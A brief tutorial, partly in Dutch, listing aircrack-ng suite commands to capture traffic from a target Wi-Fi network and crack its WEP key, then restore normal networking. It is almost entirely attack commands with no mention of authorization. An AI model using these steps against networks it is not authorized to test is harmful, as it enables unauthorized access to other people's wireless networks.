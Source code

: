 # Cracking WEP with aircrack-ng

`airmon-ng start wlan0`

`airodump-ng wlan0mon`

Don't forget to replace CHANNEL en BSSID withe the right channel and bssid.

`airodump-ng -c "CHANNEL" --bssid "BSSID" -w dump wlan0mon`

After enough packets are recieved we can crack the encryption key using:

`aircrack-ng -b "juist bssid" dump-01.cap`

After cracking the password we can stop the wlan0mon interface using:

`airmon-ng stop wlan0mon`

`systemctl start NetworkManager.service`

